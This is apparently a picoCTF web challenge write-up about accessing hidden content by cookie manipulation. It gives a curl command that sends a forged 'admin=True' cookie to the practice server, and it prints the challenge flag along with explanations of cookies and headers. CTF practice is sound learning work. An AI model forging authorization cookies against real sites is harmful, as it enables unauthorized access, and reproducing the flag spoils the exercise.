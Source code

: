 

## Goal

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
## Solution

HTTP headers
+ Ctr+u
+ Network
+ Log in on the site 
+ After, we need to find header cookies
+ When you open inpect mode/network/cookies
+ You find the cookies
+ Use curl
```bash
curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: username=1234124; password=5434665436; admin=True" | grep pico
curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: username=1234124; password=5434665436; admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0    357      0  0:00:03  0:00:03 --:--:--   357
<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
````
## Notes

- **In web terms:** Cookies are small pieces of data that a website stores on your computer's web browser. Websites use them for various purposes, including:
    - **Remembering your login information** so you don't have to re-enter credentials every time.
    - **Tracking your preferences** for better personalization.
    - **Keeping track of items in your online shopping cart**.
    - **Understanding how you interact with the website**.

-  **HTTP headers** let the client and the server pass additional information with an HTTP request or response. An HTTP header consists of its case-insensitive name followed by a colon (`:`), then by its value. [Whitespace](https://developer.mozilla.org/en-US/docs/Glossary/Whitespace) before the value is ignored.

## References

[HTTP headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
[Cookie](https://www.kaspersky.com/resource-center/definitions/cookies)
